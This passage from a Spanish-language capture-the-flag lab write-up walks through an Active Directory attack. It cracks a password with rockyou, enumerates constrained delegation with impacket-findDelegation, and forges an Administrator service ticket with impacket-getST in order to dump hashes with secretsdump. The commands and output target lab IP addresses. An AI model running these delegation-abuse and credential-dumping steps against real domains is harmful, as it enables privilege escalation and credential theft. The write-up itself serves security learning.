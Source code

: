 Nota: es probable que el diccionario este comprimido asi que te tendras que ir ala ruta /usr/share/wordlists/ y haras un gzip -d rockyou.txt y con eso ya funcionaria bien si es que en caso no lo hayas descomprimido antes.

y ahi estara las contraseña: `re*********rd`

ahora haremos un:

`impacket-findDelegation -debug  COOCTUS.CORP/password-reset:resetpassword -dc-ip 10.10.206.226`

````bash
┌──(samsepi0l㉿kali)-[~/CroccCrew]
└─$ impacket-findDelegation -debug  COOCTUS.CORP/password-reset:resetpassword -dc-ip 10.10.47.234           
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[+] Impacket Library Installation Path: /usr/lib/python3/dist-packages/impacket
[+] Connecting to 10.10.47.234, port 389, SSL False
[+] Total of records returned 4
AccountName     AccountType  DelegationType                      DelegationRightsTo                  
--------------  -----------  ----------------------------------  -----------------------------------
password-reset  Person       Constrained w/ Protocol Transition  oakley/DC.COOCTUS.CORP/COOCTUS.CORP 
password-reset  Person       Constrained w/ Protocol Transition  oakley/DC.COOCTUS.CORP              
password-reset  Person       Constrained w/ Protocol Transition  oakley/DC                           
password-reset  Person       Constrained w/ Protocol Transition  oakley/DC.COOCTUS.CORP/COOCTUS      
password-reset  Person       Constrained w/ Protocol Transition  oakley/DC/COOCTUS 
````

para el uso de la delegación de búsqueda de impacket para extraer más información sobre la delegación.
 
 ahora haremos un 
 `impacket-getST -spn oakley/DC.COOCTUS.CORP -impersonate Administrator "COOCTUS.CORP/password-reset:resetpassword" -dc-ip 10.10.206.226`

![ ticket de servicio para el usuario administrador](getST.png)

El resultado de este script será un ticket de servicio para el usuario administrador.
Una vez que tengamos el archivo ccache, configúrelo en la variable KRB5CCNAME para que se cargue dentro de la memoria y luego podamos usarlo a nuestro favor.

ahora haremos un `export KRB5CCNAME=Administrator.ccache` para el uso de la secuencia de comandos secretsdump de impacket para volcar hashes de usuario.

para ahorrarnos futuros errores y tiempo añadiremos esto a nuestra /etc/hosts con la ip de su maquina ( DC.COOCTUS.CORP ) eso añadiran claramente ira sin los parentesis, aqui un ejemplo de como tuvo que quedar

```bash
___________________________________________________________
127.0.0.1       localhost
127.0.1.1       kali
10.10.79.189    DC.COOCTUS.CORP
 The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
____________________________________________________________
```
